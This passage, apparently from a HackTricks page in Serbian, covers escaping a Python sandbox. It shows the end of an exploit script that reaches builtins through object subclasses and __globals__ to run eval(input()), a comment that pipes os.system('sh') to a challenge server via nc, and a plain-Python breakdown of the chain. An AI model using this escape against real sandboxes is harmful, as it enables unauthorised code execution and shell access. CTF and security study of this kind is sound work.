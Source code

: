 ```python
)()[-{_(2)}].__repr__,
globals := get(m_repr, m_repr.__dir__()[{_(6)}]),
builtins := globals[[*globals][{_(7)}]],
builtins[[*builtins][{_(19)}]](
builtins[[*builtins][{_(28)}]](), builtins
)
]'''.strip().replace('\n', '').replace(' ', '')

print(f"{len(source) = }", file=sys.stderr)
print(source)

# (python exp.py; echo '__import__("os").system("sh")'; cat -) | nc challenge.server port
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273
```

Osnovno radi sledeće stvari, za one stringove koje dobijamo iz metode `__dir__`:

```python
getattr = (None).__getattribute__('__class__').__getattribute__
builtins = getattr(
getattr(
getattr(
[].__getattribute__('__class__'),
'__base__'),
'__subclasses__'
)()[-2],
'__repr__').__getattribute__('__globals__')['builtins']
builtins['eval'](builtins['input']())
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
